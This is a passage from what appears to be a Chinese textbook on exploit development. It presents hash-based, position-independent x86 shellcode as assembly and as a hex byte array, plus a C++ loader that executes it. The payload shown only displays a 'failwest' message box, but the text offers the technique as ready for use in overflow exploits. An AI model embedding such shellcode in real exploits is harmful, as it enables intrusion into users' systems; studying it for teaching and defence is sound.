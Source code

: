 ```C++
			push ebx
			call [edi - 0x08]
            NOP
            NOP
            NOP
            NOP
            NOP
            NOP
            NOP

	}//_asm end

}
```

上述代码编译后的机器码如下：
```
\x90\x90\x90\x90\x90\x90\x90\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x68\x33\x32\x00\x00\x68\x75\x73\x65\x72\x54\x33\xD2\x64:\x8B\x5A\x30\x8B\x4B\x0C\x8B\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x8B\x5C\x0D\x20\x03\xCD\x8B\x59\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75\xE4\x8B\x59\x24\x03\xDD\x66:\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA5\x33\xDB\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90
```

上述这种保存在字符数组中的 shellcode 已经可以轻易地在 exploit 程序中使用了，也可以用前边的shellcode 装载程序单独加载运行。

```c++
popup_general = "\x90\x90\x90\x90\x90\x90\x90\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x68\x33\x32\x00\x00\x68\x75\x73\x65\x72\x54\x33\xD2\x64:\x8B\x5A\x30\x8B\x4B\x0C\x8B\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x8B\x5C\x0D\x20\x03\xCD\x8B\x59\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75\xE4\x8B\x59\x24\x03\xDD\x66:\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA5\x33\xDB\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90"
void main()
{
	__asm
	{
		lea eax, popup_general
		push eax
		ret
	}
} 
```

这样，一段考虑了跨平台、健壮性、稳定性、通用性等各方面因素的高质量 shellcode 就生成了。本书后面章节将在实验中反复使用这段 shellcode。经过反复的实验，这段 shellcode 在各种溢出利用场景下都表现出色。

通过本节的介绍，可以看出即使是经验丰富的汇编程序员，想要写出高质量的 shellcode也得着实花一翻工夫。事实上，若非真的有特殊需要，即使是经验丰富的 hacker 也不会总是自己编写 shellcode。大多数情况下，从 Internet 上可以得到许多经典的 shellcode。另外 MetaSploit通用漏洞测试架构 下的 payload 库中，目前已经包含了包括绑定端口、网马 downloader、远程 shell、任意命令执行等在内的 104 种不同功能的经典 shellcode。通过简单的参数配置，可以轻易导出 C 语言格式、Perl 语言格式、ruby 语言格式、原始十六进制格式等形式的 shellcode。我们会在后面章节中专门介绍 MataSploit 的使用和开发。
